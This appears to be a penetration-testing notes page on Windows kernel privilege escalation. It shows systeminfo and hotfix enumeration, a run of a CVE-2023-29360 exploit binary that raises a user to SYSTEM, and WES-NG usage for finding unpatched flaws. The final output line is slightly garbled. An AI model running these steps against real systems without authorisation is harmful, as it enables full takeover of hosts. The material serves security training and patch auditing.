# Kernel

**Kernel exploits** aim to leverage Windows kernel vulnerabilities and typically result in high privileges, but requires advanced knowledge and carries a high risk of crashing the system.

{% tabs %}
{% tab title="1. System Info" %}
```powershell
> systeminfo

Host Name:                 CLIENTWK220
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22621 N/A Build 22621
...
```
{% endtab %}

{% tab title="2. Hotfixes" %}
{% code overflow="wrap" %}
```powershell
# enumerate security patches
> Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

Source        Description      HotFixID      InstalledBy         InstalledOn
------        -----------      --------      -----------         -----------
              Security Update  KB5025239                         5/4/2023 12:00:00 AM
              Security Update  KB5025749                         5/4/2023 12:00:00 AM
              Security Update  KB5017233                         9/25/2022 12:00:00 AM
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
> whoami
clientwk220\steve

> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 20c2f3c00c0
[+] Second mapped _MDL: 20c2f3d0040
[+] Unprivileged token reference: ffffbc053be6d06d
[+] System token reference: ffffbc052ea7d496
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

>whoami
nt authority\systemower
```
{% endcode %}
{% endtab %}
{% endtabs %}

> _Vulnerabities on Windows OS systems can be found on the_ [_Security Update Guide_](https://msrc.microsoft.com/update-guide/)_, such as_ [_CVE-2023-29360_](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)_, and their corresponding security updates can be shown on the_ [_Microsoft Update Catalog_](https://catalog.update.microsoft.com/Search.aspx?q=KB5027231) _page._

## WES-NG

[Windows Exploit Suggester – Next Generation (WES-NG)](https://github.com/bitsadmin/wesng) is a post-exploitation tool that analyzes Windows system information to identify unpatched vulnerabilities and associated exploits. It supports all Windows OSs from XP through Windows 11, including server editions.&#x20;

```bash
# Clone the repo
git clone https://github.com/bitsadmin/wesng --depth 1

# Update
wes.py --update

# systeminfo > systeminfo.txt on the target host
wes.py systeminfo.txt -e
```

This tool can generate a lot of false positives: make sure to check [here](https://github.com/bitsadmin/wesng/wiki/Eliminating-false-positives) how to eliminate them. The tool can also validate findings against Microsoft’s Update Catalog using the `--muc-lookup` option to reduce false positives, as the raw MSRC feed can be incomplete.
